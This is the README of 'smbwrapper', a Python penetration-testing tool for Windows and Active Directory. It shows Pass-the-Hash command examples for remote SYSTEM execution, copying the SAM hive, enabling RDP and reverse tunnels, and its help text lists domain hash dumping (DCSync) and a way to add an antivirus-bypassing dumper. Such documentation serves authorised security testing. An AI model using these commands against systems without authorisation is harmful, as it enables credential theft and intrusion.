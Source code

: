 ## SMB Wrapper ##

**smbwrapper** is a python script which provides wrappers around `smbclient` and `winexe` with added functionality and Pass-the-Hash support.

It is intended for penetration testers and security auditors who are targeting Windows/Active Directory environments.

It relies on various external tools such as slighly modified versions of `smbclient-pth`, `winexe-pth`, `xfreerdp` and `socat`. At the moment, they will **only run in Linux x64**. It should run fine in Kali 64 bits.

It also includes various windows executables that are meant to be run on targeted Windows systems, such as [socat for windows](https://github.com/jboecker/dcs-arduino-example/tree/master/socat), [MBSA](https://technet.microsoft.com/en-us/security/cc184924.aspx), [nircmd](http://nirsoft.net/utils/nircmd.html) or *runastask* (see below)

### TL;DR ##

Below are a few examples of basic usage.

Add current credentials (use password or NT hash):

	$ ./smb.py creds add MYDOMAIN\\Administrator 209C6174DA490CAEB422F3FA5A7AE634 "My Demo User"
	[*] Credentials added and marked as active.

Execute commands (use -s for LocalSystem elevation):

	$ ./smb.py exec 10.1.2.3 whoami
	mydomain\administrator

	$ ./smb.py exec -s 10.10.10.12 whoami
	nt authority\system

	$ ./smb.py exec 10.10.10.12 cmd
	Microsoft Windows [Version 6.1.7601]
	Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

	C:\Windows\system32>

Download a file locked by the system:

	$ ./smb.py vsscpy 10.10.10.12 c:\\windows\\system32\\config\\SAM /tmp/sam
	[*] Uploading script...
	[*] Running script...
	[*] Downloading file to '/tmp/sam'...
	[*] Removing temp files...
	[*] Done.

	$ file /tmp/sam 
	/tmp/sam: MS Windows registry file, NT/2000 or above

Enable RDP:

	$ ./smb.py rdp 10.10.10.12 enable
	[*] Updating Registry...
	[*] Adding firewall rule...
	[*] Success.

Open a RDP session to a host behind a firewall:

Terminal 1 - Create a reverse port forwarding tunnel

	$ ./smb.py revfwd 10.10.10.12 3389 10.10.10.13 3389
	[*] Uploading files...
	[*] Setting up local listener...
	[*] Adding firewall rule...
	[*] Success.
	[*] Creating reverse tunnel...
	[i] 10.10.10.13:3389 <--> 10.10.10.12:56789 <--> 192.168.0.1:3389
	[i] Now point your client to 192.168.0.1:3389

Terminal 2 - Connect to the local port

	$ ./smb.py rdp 192.168.0.1 RemoteUsername RemotePassword

### Help ###

	$ ./smb.py help
	smb.py v1.0.1alpha by jrm` - Run stuff remotely - Pass the Hash

	smb.py -h 			 This help
	smb.py -f <file>		 Specify an alternative credential vault

	   The following commands are currently implemented:

	   smb.py creds [ list | set | del | use ] <user> <passwd/nthash>
		Manage SMB credentials

	   smb.py exec [-s] <ip> [ user ] [ passwd/nthash ] <cmd>
		Execute a command remotely (use "cmd" for a command prompt)

	   smb.py upexec [-s] <ip> [ user ] [ passwd/nthash ] <localfile.exe [-arg1 [-argx]]>
		Upload a file and run it remotely with the specified arguments

	   smb.py upload [-s] <ip> [ user ] [ passwd/nthash ] <localfile> <remotefile>
		Upload a file to the host

	   smb.py download [-s] <ip> [ user ] [ passwd/nthash ] <remotefile> <localfile>
		Download a file from the host

	   smb.py dcsync [-s] <ip> [ user ] [ passwd/nthash ] [ -history ]
		Dump domain users hashes using DRSUAPI method (AD Replication)

	   smb.py creddump [-s] <ip> [ user ] [ passwd/nthash ]
		Extract SAM, SECURITY, SYSTEM hives and dump SAM, DCC, LSA Secrets

	   smb.py lastlog [-s] <ip> [ user ] [ passwd/nthash ] <username>
		Retrieves last known IPs for given user from the DC's Event Logs. Provide DC IP.

	   smb.py scrshot [-s] <ip> [ user ] [ passwd/nthash ]
		Takes a screenshot of the active session

	   smb.py vsscpy [-s] <ip> [ user ] [ passwd/nthash ] <remotefile> <localfile>
		Use shadow copies to download a locked file from the host

	   smb.py fwrule [-s] <ip> [ user ] [ password ] <add | del> <program path | port number>
		Create or remove a rule in the Windows firewall

	   smb.py mount <ip> [ user ] [ password ] <share> <localpath>
		Mount a remote share locally via CIFS (Pass-the-Hash not available)

	   smb.py rdp <ip> [ user ] [ passwd/nthash ] [ enable | disable ]
		Open a Remote Desktop session using xfreerdp (Pass-the-Hash = restricted admin)

	   smb.py portfwd [-s] <ip> [ user ] [ passwd/nthash ] <lport> <rhost> <rport>
		Forward a remote port to a remote address

	   smb.py revfwd [-s] <ip> [ user ] [ passwd/nthash ] <lport> <rhost> <rport>
		Reverse-forward a remote address/port locally

	   smb.py mbsa [-s] <ip> [ user ] [ passwd/nthash ] [ update ]
		Run MBSA on the remote host

	   smb.py hash <plaintext>
		Generate a NTLM hash from a plaintext

	   If the command supports it, use the '-s' option to attempt remote LocalSystem elevation.

	   Instead of using username+password or username+hash on the commandline,
	   you can use the smb.py creds command to populate the credential vault.

	   Usernames must be specified using the DOMAIN\LOGIN syntax.

	   See usage examples at: https://github.com/jrmdev/smbwrapper/blob/master/README.md

### Credential management ###

For each command, you can specify the credentials to use on the command line. However, if you choose not to, you can maintain a credential vault.

The `smb.py creds` command allows to view and edit a credential vault in an sqlite database. It is mostly useful when working in an Active Directory environment so that you can retain the domain administrator's credentials across multiple runs without the hassle to specify them on the command line. It also makes to tool more easier and effective to work with.

**Disclaimer:** The credentials are stored in clear-text in the sqlite db. Feel free to use NTLM hashes instead of passwords, or not to use this feature at all.

### Writing a quick extension ###

The way **smbwrapper** is designed enables it to be extensible very easily. Just create your own function at the end of the script with a name starting by "smb_".

For example, if you want it to support your *super-cool custom-made antivirus-bypassing* hash dumper program, you would add such a function:

	def smb_hashdump():
		"""
		[-s] <ip> [ user ] [ password | ntlm_hash ]
		Dumps remote password hashes using my prog.
		"""

		set_creds(4)
		check_creds()
		print up_and_exec(['/path/to/my/prog.exe', '--dump'])

And then run `smb.py hashdump 1.2.3.4`. That's all you need to do.

`set_creds()` parameter is the minimum length that `sys.argv` can have for the credentials to be read from the vault. If `sys.argv` length is bigger, credentials will be read from the command-line.

`check_creds()` is optional but will prevent running further commands if the credentials don't work.

*Note:* You could also simply run `smb.py upexec 1.2.3.4 /path/to/my/prog.exe --dump` but creating your own function enables you to add extra functionality easily and can be useful to parse and reuse the output.

### Tools included ###

`runastask` was developed specifiaclly for `smbwrapper`. It allows to run a GUI program from a non-console session by creating a one-time scheduled task.

It is useful for commands that need access to the user's desktop, such as `smb.py scrshot`. It takes the username to run the task with as an argument. If no matching user desktop is found, it does nothing.

`mbsacli` is the command-line version of the Microsoft Baseline Security Analyzer and is useful for reporting missing patches.

`nircmd` is a tool from NirSoft that allows to perform multiple tasks on windows hosts. For the moment it is basically used to take screenshots along with `runastask`.

`vsscpy.vbs` is a Visual Basic script used to copy locked files by making use of shadow volumes.

`socat.tar` is the tarball'ed version of socat compiled for Windows. It include some Cygwin DLL libraries.

`tar.exe` is... Guess what.
